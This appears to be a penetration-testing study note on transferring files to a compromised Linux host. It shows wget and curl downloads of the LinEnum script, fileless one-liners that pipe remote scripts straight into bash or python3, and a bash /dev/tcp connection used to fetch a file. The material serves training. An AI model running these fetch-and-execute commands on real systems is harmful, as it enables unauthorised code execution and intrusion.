 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Linux
---
```



#### Download a File Using [[wGet]]

```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### Download a File Using [[cURL]]

```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless Download with wGet

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

1. Connect to the Target Webserver 

```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

2. HTTP GET Request

```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```